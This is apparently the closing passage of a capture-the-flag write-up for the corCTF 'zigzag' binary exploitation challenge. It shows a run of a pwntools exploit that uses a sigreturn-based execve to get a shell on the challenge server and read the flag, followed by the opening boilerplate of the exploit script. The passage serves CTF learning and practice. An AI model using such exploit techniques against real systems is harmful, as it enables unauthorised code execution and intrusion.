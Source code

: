 ## PROFIT

```
nasm@off:~/Documents/pwn/corCTF/zieg$ python3 remote.py REMOTE HOST=be.ax PORT=31278
[*] '/home/nasm/Documents/pwn/corCTF/zieg/zigzag'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x200000)
[+] Opening connection to be.ax on port 31278: Done
[*] stack: 0x7ffc2ca48ae8
[*] Loaded 37 cached gadgets for 'zigzag'
[*] Using sigreturn for 'SYS_execve'
[*] Switching to interactive mode
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ ls
flag.txt
zigzag
$ cat flag.txt
corctf{bl4Z1nGlY_f4sT!!}
```

## Appendices

Final exploit:
```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# this exploit was generated via
# 1) pwntools
# 2) ctfmate

import os
import time
import pwn


# Set up pwntools for the correct architecture
exe = pwn.context.binary = pwn.ELF('zigzag')
# pwn.context.terminal = ['tmux', 'new-window'] 
pwn.context.delete_corefiles = True
pwn.context.rename_corefiles = False

host = pwn.args.HOST or '127.0.0.1'
port = int(pwn.args.PORT or 1337)


def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if pwn.args.GDB:
        return pwn.gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return pwn.process([exe.path] + argv, *a, **kw)


def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = pwn.connect(host, port)
    if pwn.args.GDB:
        pwn.gdb.attach(io, gdbscript=gdbscript)
```